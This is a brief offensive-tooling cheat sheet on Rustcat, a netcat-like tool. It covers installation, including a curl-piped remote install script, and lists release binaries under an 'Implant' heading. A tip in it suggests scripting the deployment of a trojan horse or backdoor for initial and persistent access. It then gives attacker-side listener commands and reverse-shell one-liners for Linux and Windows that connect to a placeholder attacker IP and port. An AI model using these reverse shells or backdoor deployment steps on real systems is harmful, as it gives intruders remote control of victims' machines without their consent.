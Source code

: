 # Rustcat

## 01 - Setup

### 1.1 - Server

Install it according to your distribution.

```
$ bash <(curl -s https://raw.githubusercontent.com/robiot/rustcat/master/pkg/debian-install.sh)

$ yay -S rustcat

$ emerge net-analyzer/rustcat
```

Universal installation.

```
$ cargo install rustcat
```

### 1.2 - Implant

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

## 02 - Usage

Launch a listener on the attacker's machine in all addresses (`0.0.0.0`) with command history and command completion and `SIGINT` (`Ctrl + C`) blocking.

```
> rcat listen -ib <attacker_PORT>

> rcat l -ib <attacker_PORT>
```

### 2.1 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Source Repositories

- [robiot: `rustcat`](https://github.com/robiot/rustcat)